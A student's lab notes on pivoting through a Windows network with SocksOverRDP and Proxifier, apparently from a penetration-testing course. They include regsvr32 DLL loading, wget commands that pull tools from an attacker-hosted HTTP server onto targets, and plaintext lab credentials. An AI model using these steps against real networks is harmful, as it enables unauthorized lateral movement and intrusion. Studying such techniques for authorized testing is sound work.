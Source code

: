 - There are often times during an assessment when we may be limited to a **Windows network and may not be able to use SSH for pivoting.**
- We would have to use tools available for Windows operating systems in these cases.
- Some examples of usage of this feature would be clipboard data transfer and audio sharing.
- [SocksOverRDP](https://github.com/nccgroup/SocksOverRDP) is an example of a tool that uses `Dynamic Virtual Channels` (`DVC`) from the Remote Desktop Service feature of Windows. DVC is responsible for tunneling packets over the RDP connection.
	- We can use `SocksOverRDP` to tunnel our custom packets and then proxy through it. We will use the tool [Proxifier](https://www.proxifier.com/) as our proxy server.

- We can start by downloading the appropriate binaries to our attack host to perform this attack. Having the binaries on our attack host will allow us to transfer them to each target where needed. We will need:

	1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)
	2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)

- We can then connect to the target using xfreerdp and copy the `SocksOverRDPx64.zip` file to the target. From the Windows target, we will then need to load the SocksOverRDP.dll using regsvr32.exe.

# Loading SocksOverRDP.dll using regsvr32.exe
---
- `regsvr32.exe SocksOverRDP-Plugin.dll` **As Powershell Administrator**

- Now we can connect to 172.16.5.19 over RDP using `mstsc.exe`
- And we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. We can use the credentials `victor:pass@123` to connect to 172.16.5.19.

- We will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. We can then start SocksOverRDP-Server.exe with Admin privileges.

- After starting our listener, we can transfer Proxifier portable to the Windows 10 target (on the 10.129.x.x network), and configure it to forward all our packets to 127.0.0.1:1080. Proxifier will route traffic through the given host and port. See the clip below for a quick walkthrough of configuring Proxifier.

# Lab
---
## Uploading Files
- `python3 -m http.server` to serve files
- `wget 10.10.16.34/SocksOverRDP-Plugin.dll -o SocksOverRDP-Plugin.dll`
- `wget 10.10.16.34/SocksOverRDP-Server.exe -o SocksOverRDP-Server.exe`
- `wget 10.10.16.34/ProxifierPE.zip -o ProxifierPE.zip`

## Login to 172.16.5.19 over RDP using `mstsc.exe`
- `regsvr32.exe SocksOverRDP-Plugin.dll` => Load DLL
- Start powershell as admin
- `mstsc.exe`
- `172.16.5.19` : `victor` : `pass@123`
## Transfer SocksOverRDP-Server.exe using RDP
- Start `SocksOverRDP-Server.exe` as Administrator on internal pivot machine (.19)
## Configure proxifier on 10.x.x.x machine
- Use `127.0.0.1` as proxy host name
- Select `socks5` as proxy protocol
## Connect with internal machine `172.16.5.155`:
- Use `mstsc.exe`: `jason` : `WellConnected123!`
- ![[Pasted image 20250804054810.png]]
- ![[Pasted image 20250804060609.png]]